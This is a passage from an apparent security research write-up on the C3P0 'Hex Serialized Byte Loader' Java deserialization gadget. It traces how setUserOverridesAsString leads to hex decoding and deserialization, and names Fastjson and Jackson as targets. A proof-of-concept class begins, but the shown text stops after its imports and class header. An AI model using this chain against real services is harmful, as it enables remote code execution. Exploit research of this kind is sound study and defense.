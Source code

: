 <div align=center><img src="./images/15.png"></div>

## Hex Serialized Byte Loader
### Process Analysis
In `JNDI-Gadget`, it is used to utilize the implementation class `JndiRefConnectionPoolDataSource` of ConnectionPoolDataSource`, and this `Gadget` utilizes `WrapperConnectionPoolDataSource`. `WrapperConnectionPoolDataSource` is inherited from `WrapperConnectionPoolDataSourceBase`, and the attribute `userOverridesAsString` and its `setter` method `setUserOverridesAsString` is triggered to handle the `fireVetoableChange` event.

<div align=center><img src="./images/16.png"></div>

There is a method `setUpPropertyListeners` in WrapperConnectionPoolDataSource`, which has a judgment statement. When its property is `userOverridesAsString`, the `parseUserOverridesAsString` method will be called.

<div align=center><img src="./images/17.png"></div>

Follow up on the `parseUserOverridesAsString` method, first intercept the `userOverridesAsString`, then complete hexadecimal decoding, then call the `fromByteArray` function, and finally trigger the deserialization operation.

<div align=center><img src="./images/18.png"></div>

<div align=center><img src="./images/19.png"></div>

<div align=center><img src="./images/20.png"></div>

<div align=center><img src="./images/21.png"></div>

### POC
In the `Fastjson` and `Jackson` environments, this `Gadget` is more suitable for use without leaving the network environment.

```java
package org.h3rmesk1t.C3P0;

import com.alibaba.fastjson.JSON;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/17 4:38 pm
 */
public class C3P0Hex {

```